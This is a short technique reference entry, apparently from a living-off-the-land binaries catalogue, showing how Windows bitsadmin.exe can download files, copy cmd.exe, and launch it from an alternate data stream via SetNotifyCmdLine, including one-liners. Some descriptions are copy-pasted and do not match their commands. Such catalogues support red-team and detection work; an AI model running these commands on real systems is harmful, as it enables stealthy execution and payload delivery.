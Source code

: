 ## Bitsadmin.exe
* Functions: Execute, Download, Copy, Read ADS
```

bitsadmin /create 1
bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\data\playfolder\cmd.exe
bitsadmin /SetNotifyCmdLine 1 c:\data\playfolder\1.txt:cmd.exe NULL
bitsadmin /RESUME 1
bitsadmin /complete 1




Create a bitsadmin job named 1, add cmd.exe to the job, configure the job to run the target command, then resume and complete the job.

bitsadmin /create 1
bitsadmin /addfile 1 https://live.sysinternals.com/autoruns.exe c:\data\playfolder\autoruns.exe
bitsadmin /RESUME 1
bitsadmin /complete 1

Create a bitsadmin job named 1, add cmd.exe to the job, configure the job to run the target command, then resume and complete the job.

bitsadmin /create 1 & bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\data\playfolder\cmd.exe & bitsadmin /RESUME 1 & bitsadmin /Complete 1 & bitsadmin /reset
One-liner version that creates a bitsadmin job named 1, add cmd.exe to the job, configure the job to run the target command, then resume and complete the job.

bitsadmin /create 1 & bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\data\playfolder\cmd.exe & bitsadmin /SetNotifyCmdLine 1 c:\data\playfolder\1.txt:cmd.exe NULL & bitsadmin /RESUME 1 & bitsadmin /Reset
One-Liner version that creates a bitsadmin job named 1, add cmd.exe to the job, configure the job to run the target command, then resume and complete the job.
```
   
* Resources:   
  * https://www.slideshare.net/chrisgates/windows-attacks-at-is-the-new-black-26672679 - Slide 53
  * https://www.youtube.com/watch?v=_8xJaaQlpBo
  * https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
   
* Full path:   
  * c:\Windows\System32\bitsadmin.exe
  * c:\Windows\SysWOW64\bitsadmin.exe
   
* Notes: Thanks to Rob Fuller - @mubix , Chris Gates - @carnal0wnage, Oddvar Moe - @oddvarmoe  
   
